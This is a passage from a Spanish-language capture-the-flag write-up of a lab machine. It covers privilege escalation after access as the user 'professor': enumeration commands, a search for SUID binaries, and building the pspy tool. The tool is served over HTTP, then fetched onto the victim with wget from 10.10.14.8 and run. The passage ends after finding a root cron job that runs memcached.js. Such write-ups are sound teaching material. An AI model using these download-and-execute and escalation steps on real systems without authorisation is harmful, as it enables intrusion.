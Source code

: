 Hemos ganado accesso al systema como el usuario professor.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
ls
pwd
find / -name user.txt
cd /home/berlin/user.txt
```

Aqui vemos que el user.txt solo se puede ver desde la web.

```bash
uname -a
lsb_release
cat /etc/os-release
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
```

aqui vemos binarios SUID. comprobamos con [gtfobins](https://gtfobins.github.io/) si se pueden burlar.

buscamos por bbsuid, abuild-sudo sudo pero no encontramos nada. Tenemos que mirar de CRON. Lo miramos con pspy.

```bash
git clone https://github.com/DominicBreuker/pspy
cd pspy
go build -ldflags "-s -w" main.go
upx main
mv main pspy
python3 -m http.server 80
```

Desde la maquina victima, downloadeamos el fichero y lo lanzamos

```bash
wget http://10.10.14.8/pspy
chmod +x pspy
./pspy
```

Podemos ver que hay una tarea ejecutada por root que lanza un 
```bash
 sudo -u nobody /usr/bin/node /home/professor/memcached.js 
```
 

Si vamos al 
```bash
 /home/professor 
```
 vemos el fichero 
```bash
 memcached.js 
```
 pero no nos deja ver lo que hay dentro. Hay otro fichero 
```bash
 memcached.ini 
```
 que contiene
el comando ejecutado durante la tarea cron. 
